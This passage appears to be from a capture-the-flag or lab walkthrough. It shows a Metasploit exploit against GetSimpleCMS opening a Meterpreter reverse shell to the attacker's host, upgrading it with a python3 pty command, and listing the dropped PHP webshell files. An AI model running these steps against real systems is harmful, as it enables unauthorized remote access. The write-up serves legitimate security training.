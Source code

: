 ```
View the full module info with the info, or info -d command.
```

let's run the exploit:

```
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.24:1337
[*] GetSimpleCMS version 3315
[*] Sending stage (39927 bytes) to 10.129.207.104
[*] Meterpreter session 1 opened (10.10.14.24:1337 -> 10.129.207.104:34342) at 2023-12-24 09:53:57 +0100
```

in meterpreter, we can access the shell with `shell`, then upgrade with `python3`

```
meterpreter > shell
Process 2579 created.
Channel 0 created.
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@gettingstarted:/var/www/html/theme$ ls -lh
ls -lh
total 28K
drwxr-xr-x 3 www-data www-data 4.0K Sep  7  2018 Cardinal
-rw-r--r-- 1 www-data www-data 1.1K Dec 24 08:45 DqWIpUhGyxR.php
-rw-r--r-- 1 www-data www-data 1.1K Dec 24 08:42 GUEVHBArPIPythP.php
drwxr-xr-x 4 www-data www-data 4.0K Sep  7  2018 Innovation
-rw-r--r-- 1 www-data www-data 1.1K Dec 24 08:24 PAvRRdaMRNFSXu.php
-rw-r--r-- 1 www-data www-data 1.1K Dec 24 08:37 WVwtxCQjkYvDdTMY.php
-rw-r--r-- 1 www-data www-data 1.1K Dec 24 08:53 mkoQbIPRiGnQ.php
www-data@gettingstarted:/var/www/html/theme$
```

from here, we can use the same vector as before.
